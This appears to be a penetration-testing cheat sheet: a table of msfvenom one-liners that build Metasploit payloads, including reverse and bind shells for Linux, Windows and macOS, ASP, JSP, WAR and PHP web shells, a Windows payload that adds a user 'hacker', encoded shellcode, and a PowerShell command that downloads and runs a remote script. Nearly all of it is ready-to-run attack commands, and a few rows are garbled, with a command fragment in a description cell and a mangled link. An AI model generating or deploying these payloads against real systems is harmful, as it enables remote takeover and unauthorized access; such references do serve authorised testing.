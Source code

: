 | **MSFVenom Payload Generation One-Liner** | **Description** |
| --- | --- |
| msfvenom -l payloads | List available payloads |
| msfvenom -p PAYLOAD --list-options | List payload options |
| msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP | Payload Encoding |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter reverse shell x86 multi stage |
| msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter bind shell x86 multi stage |
| msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux bind shell x64 single stage |
| msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux reverse shell x64 single stage |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter reverse shell |
| msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe | Windows Meterpreter http reverse shell |
| msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter bind shell |
| msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Multi Stage |
| msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Single Stage |
| msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe | Windows add user |
| msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho | Mac Reverse Shell |
| msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho | Mac Bind shell |
| msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py | Python Shell |
| msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh | BASH Shell |
| msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl | PERL Shell |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp | ASP Meterpreter shell |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp | JSP Shell |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war | WAR Shell |
| msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php | pbcopy && echo '?php ' |
| msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php | Php Reverse Shell |
| msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('[http://IP/nishang.ps1')\](http://ip/nishang.ps1')%5C)"" -f python | Windows Exec Nishang Powershell in python |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0" | Bad characters shikata_ga_nai |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0" | Bad characters fnstenv_mov |
 
